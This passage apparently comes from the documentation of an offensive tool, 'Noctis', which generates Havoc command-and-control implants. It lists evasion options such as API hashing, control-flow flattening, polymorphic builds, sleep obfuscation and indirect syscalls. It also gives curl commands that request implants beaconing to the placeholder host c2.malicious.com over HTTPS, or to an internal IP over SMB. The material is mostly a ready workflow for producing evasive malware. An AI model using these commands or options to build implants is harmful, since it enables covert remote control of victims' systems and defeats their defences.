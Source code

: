 ### API Hashing
```python
techniques=["NOCTIS-T124"]  # DJB2 API hashing
```

### Control Flow Flattening
```python
obfuscate=True  # Enables control flow flattening
```

### Polymorphic Variants
```python
apply_polymorphic=True  # Each build is unique
```

---

## Example Workflows

### 1. Basic HTTPS Demon

```bash
curl -X POST http://localhost:8888/api/c2/havoc/generate \
  -H "Content-Type: application/json" \
  -d '{
    "listener_host": "c2.malicious.com",
    "listener_port": 443,
    "protocol": "https"
  }'
```

### 2. Fully Obfuscated with API Hashing

```bash
curl -X POST http://localhost:8888/api/c2/havoc/generate \
  -H "Content-Type: application/json" \
  -d '{
    "listener_host": "c2.malicious.com",
    "listener_port": 443,
    "protocol": "https",
    "sleep_technique": "Ekko",
    "techniques": ["NOCTIS-T124", "NOCTIS-T095"],
    "obfuscate": true,
    "indirect_syscalls": true,
    "stack_duplication": true
  }'
```

### 3. SMB Named Pipe Communication

```bash
curl -X POST http://localhost:8888/api/c2/havoc/generate \
  -H "Content-Type: application/json" \
  -d '{
    "listener_host": "192.168.1.10",
    "listener_port": 445,
    "protocol": "smb",
    "sleep_technique": "Foliage"
  }'
```

---